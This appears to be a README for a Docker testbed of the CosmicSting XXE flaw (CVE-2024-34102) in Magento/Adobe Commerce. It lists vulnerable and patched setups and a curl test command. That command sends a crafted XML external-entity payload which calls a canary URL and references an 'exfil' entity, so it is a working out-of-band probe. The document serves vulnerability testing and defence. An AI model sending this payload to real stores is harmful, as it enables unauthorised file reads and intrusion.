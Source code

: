 # Magento / Adobe Commerce CosmicSting XXE (CVE-2024-34102)

## Description
Adobe Commerce and Magento v2.4.7 and earlier are vulnerable to a critical unauthenticated XXE (XML External Entity) vulnerability that can lead to arbitrary code execution. The vulnerability can be exploited by sending an unauthenticated HTTP request with a crafted XML file that references external entities; when the request payload is deserialized, the attacker can extract sensitive files from the system and gain administrative access to the software. Remote Code Execution (RCE) can accomplished by combining this issue with another vulnerability, such as the [PHP iconv RCE](https://www.ambionics.io/blog/iconv-cve-2024-2961-p1).

## Launch Testbed

### Vulnerable version
Launch vulnerable version: Magento v2.4.7-p0.
```sh
docker compose -f docker-compose-vuln.yml up
```

### Safe version
Launch safe version: Magento v2.4.7-p2.
```sh
docker compose -f docker-compose-safe.yml up
```

## Vulnerability Test
You can use the following command to check whether the instance is vulnerable or not (credits to vicarius.io):
```sh
curl -k -X POST \
  http://127.0.0.1:8080/rest/all/V1/guest-carts/test-assetnote/estimate-shipping-methods \
  -H "Content-Type: application/json" \
  -d '{
    "address": {
      "totalsReader": {
        "collectorList": {
          "totalCollector": {
            "sourceData": {
              "data": "<?xml version=\"1.0\" ?><!DOCTYPE r [ <!ELEMENT r ANY > <!ENTITY % sp SYSTEM \"<CANARY_URL>\"> %sp; %param1; ]><r>&exfil;</r>",
              "options": 16
            }
          }
        }
      }
    }
  }'
```

A vulnerable instance will reply with the following message:
```json
{"message":"Internal Error. Details are available in Magento log file. Report ID: webapi-66d8a8d363765"}
```
while a safe instance will output the following:
```json
{"message":"Invalid data type"}
```
Moreover, you can replace `<CANARY_URL>` with the URL of a request canary service (such as Burp Collaborator) to verify if you receive a callback. A safe instance will not fetch the URL, while a vulnerable one will.

## Affected Versions
- 2.4.7 and earlier
- 2.4.6-p5 and earlier
- 2.4.5-p7 and earlier
- 2.4.4-p8 and earlier
- 2.4.3-ext-7 and earlier*
- 2.4.2-ext-7 and earlier*

*These versions are only applicable to customers participating in the Extended Support Program

## References
- [CosmicSting: critical unauthenticated XXE vulnerability in Adobe Commerce and Magento (CVE-2024-34102)](https://www.vicarius.io/vsociety/posts/cosmicsting-critical-unauthenticated-xxe-vulnerability-in-adobe-commerce-and-magento-cve-2024-34102)
- [NIST: CVE-2024-34102](https://nvd.nist.gov/vuln/detail/CVE-2024-34102)
- [Adobe Security Bulletin APSB24-40](https://helpx.adobe.com/security/products/magento/apsb24-40.html)
